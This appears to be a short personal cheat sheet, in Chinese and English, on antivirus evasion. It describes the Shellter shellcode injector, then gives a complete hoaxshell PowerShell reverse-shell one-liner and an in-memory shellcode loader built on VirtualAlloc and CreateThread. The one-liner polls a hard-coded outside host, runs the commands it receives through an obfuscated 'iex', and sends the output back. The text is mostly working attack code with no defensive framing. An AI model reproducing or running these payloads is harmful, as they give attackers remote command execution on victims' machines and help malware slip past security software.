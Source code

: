 # AV Evasion

## shellter

shellter是一个动态的反向TCP/UDP连接的shellcode注入工具，它可以将shellcode注入到Windows可执行文件中，使其免杀。

但是要windows环境，还要intel x86/x64架构芯片。所以M1芯片的Mac是不行的。

## hoaxshell

<https://github.com/t3l3machus/hoaxshell>

A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.

```powershell
$s='172.16.8.130:8080';$i='bf987f35-a12cc336-7e35106c';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/bf987f35 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a12cc336 -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=i'e'x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7e35106c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

## powershell

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);   
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
//导入 kernel32.dll 中的 VirtualAlloc、CreateThread  
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
// 导入 msvcrt.dll 中的 memset
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;                         // 变量 $sc 保存 shellcode
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);                  //使用VirtualAlloc分配一块内存
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};    //使用 memset 函数将 shellcode 写入新分配的内存中
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };           //使用 CreateThread 创建新的进程，执行内存中的 shellcode
```
